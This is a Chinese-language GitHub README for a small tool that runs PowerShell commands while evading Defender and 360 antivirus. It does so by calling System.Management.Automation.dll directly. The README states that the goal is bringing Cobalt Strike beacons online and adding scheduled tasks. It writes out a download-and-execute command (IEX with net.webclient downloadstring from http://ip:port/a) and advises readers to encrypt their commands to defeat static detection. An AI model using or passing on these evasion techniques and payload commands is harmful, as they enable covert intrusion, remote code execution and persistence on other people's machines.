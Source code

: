# powershell-bypss
powershell命令免杀的小工具，可过Defender、360等，可执行上线cobaltstrike、添加计划任务等。

上述测试环境均为实体机。

思路很简单，很久之前就有了，工具调用C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation目录下面的System.Management.Automation.dll执行底层api来绕过杀软对powershell的监控。

尝试过使用base64对命令进行编码，但是好像会被Defender检测，用纯命令反而不会，这里用+加号替换了命令中空格，当然这就是一个命令的加载器，具体怎么加密命令有各种各样的方法。

由于是C#，因此可以用execute-assembly内存执行的方式来不落地执行，不过cs本身的powerpick就实现了这个功能，这里只是单拿出来做一个小工具。

**师傅们注意避免用powershell命令，上线cobaltstrike只需要```Csharp.exe IEX+((new-object+net.webclient).downloadstring('http://ip:port/a'))```裸命令，如果以powershell开头那么还是会调用powershell被360拦截的。**

**这里只是做了个小demo，师傅们可以在demo的基础上来设置自己的命令加密方式，这样可以更有效地避免杀软的静态检测。**

![32430eaf1b8ae7db520dd85e5cc82bf](https://user-images.githubusercontent.com/48757788/198879143-1caaf6d9-2ed9-4894-9233-10ff7aa7ad39.jpg)

![d559a936be1592a0bcbbaff24e88dc8](https://user-images.githubusercontent.com/48757788/198879156-82253c57-ff50-4b21-be0d-d71253db032b.jpg)





